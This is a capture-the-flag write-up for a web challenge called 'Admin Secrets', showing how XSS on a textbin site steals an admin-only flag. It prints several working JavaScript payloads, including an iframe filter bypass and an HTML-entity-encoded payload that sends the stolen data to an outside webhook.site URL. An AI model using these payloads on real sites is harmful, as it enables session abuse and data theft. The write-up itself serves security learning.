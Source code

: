 ### Admin Secrets

Admin Secrets was the last web challenge, with 71 solves and 100 points. I also got first-blood on this challenge ~4 hours into the competition, which I was really happy with!

The website was a "Textbin", where you could register and create posts with any HTML tags you wanted. You could also report posts to the admin. Another obvious XSS challenge.

However, when I first tried reporting to the admin, it wasn't able to connect to any outside resources. I later learned that this was a problem with the website initially, and that it worked later. Well, I solved the problem under the assumption it couldn't connect anywhere :P.

The way I got around this (non-existent) problem was getting the admin to log into my account and create a post to my list of posts. I used the following code segment with jQuery to do this:

```javascript
$.post("/login_worker", {username: "Strellic", password: "12345" }, () => {
	$.post("/create_worker", {text: resp});
});
```

Now that I could get responses from the admin, I now needed to find the flag. Looking at the source of the post website, I saw:
![](./images/source.png)

Obviously, the flag would be there!

I used the following script to grab that data:

```javascript
window.onload = () => {
	$.post("/login_worker", {username: "Strellic", password: "12345" }, () => {
		$.post("/create_worker", {text: $(".admin_console").html()});
	});
}
```

However, upon viewing my new post, I saw that the admin console just had three buttons. However, one of the buttons was named Access Flag. Clicking the button would send a request to `/admin_flag` and respond with the flag. Easy enough.

```javascript
window.onload = () => {
	$.get("/admin_flag", flag => {
		$.post("/login_worker", {username: "Strellic", password: "12345" }, () => {
			$.post("/create_worker", {text: flag});
		});
	});
}
```

![](./images/getrekt.png)

Oh boy. Actually, when I solved this challenge on day 1, it gave me no information on why my post contained unsafe content. 

So, I had to find a way to bypass the XSS filter and still get the admin to send me the flag. The intended solution was to encode your payload enough to bypass the filter. However, I thought about it in a different way - if the website checks the post to see if there's JavaScript, why not have any JavaScript in the post?

My idea was to create an iframe using the XSS, and inject Javascript INTO the iframe that would fetch the flag and send it to me. Here was my payload:

```javascript
window.onload = () => {
    let iframe = document.createElement("iframe");
    iframe.src = "/posts/pjdNubwOj!FA71Qg";
    iframe.onload = () => {
        iframe.contentWindow.$.ajax({
            type: "GET",
            url: "/admin_flag",
            success: function(resp) {
                iframe.contentWindow.$.post("/login_worker", {username: "Strellic", password: "12345" }, () => {
                    iframe.contentWindow.$.post("/create_worker", {text: resp});
                });
            }
        });
    };
    document.body.appendChild(iframe);
}
```

The iframe.src links to a blank post that I made with no JavaScript on it. When the admin views the page, it'll create an iframe with the post, and run JavaScript from that iFrame's context! Then, it'll send me the flag by creating a new post on my profile.

![](./images/flag.png)

A pretty cool and unintended solution!


```
tjctf{st0p_st3aling_th3_ADm1ns_fl4gs}
```




**Note from Drakon:** I solved this the intended way, and I bypassed the filter by just encoding my characters with HTML entities.

The Javascript itself is pretty basic:
```javascript
var script = document.createElement("script");
script.src = "https://code.jquery.com/jquery-3.3.1.min.js";
document.head.appendChild(script);
window.addEventListener("load", function ()
{
	$.ajax(
		{
		type: "GET",
		url: "/admin_flag",
		success: function(resp) {
			flag=resp;
			document.location="https://webhook.site/72244fec-fd93-42f5-8b09-797fccfd078d?c="+btoa(flag);
			}
		}
	);
})
```

I executed the script with the `onerror` attribute, and since you don't need quotes for attributes (as long as the attributes themselves have no spaces or quotes), you can just leave them out.

One small snag was the fact that my solve used jquery, and jquery is loaded in *after* the XSS, so I had to use JS to create a `<script>` tag. The final payload was:
```
<img src=lol onerror=var&nbsp;script&nbsp;&equals;&nbsp;document&period;createElement&lpar;&quot;script&quot;&rpar;&semi;&nbsp;script&period;src&nbsp;&equals;&nbsp;&quot;https&colon;&sol;&sol;code&period;jquery&period;com&sol;jquery-3&period;3&period;1&period;min&period;js&quot;&semi;&nbsp;document&period;head&period;appendChild&lpar;script&rpar;&semi;&nbsp;window&period;addEventListener&lpar;&quot;load&quot;&comma;&nbsp;function&nbsp;&lpar;&rpar;&nbsp;&lcub;&dollar;&period;ajax&lpar;&lcub;type&colon;&nbsp;&quot;GET&quot;&comma;url&colon;&nbsp;&quot;&sol;admin&lowbar;flag&quot;&comma;success&colon;&nbsp;function&lpar;resp&rpar;&nbsp;&lcub;flag&equals;resp&semi;document&period;location&equals;&quot;https&colon;&sol;&sol;webhook&period;site&sol;72244fec-fd93-42f5-8b09-797fccfd078d&quest;c&equals;&quot;&plus;btoa&lpar;flag&rpar;&semi;&rcub;&rcub;&rpar;&semi;&rcub;&rpar;>
```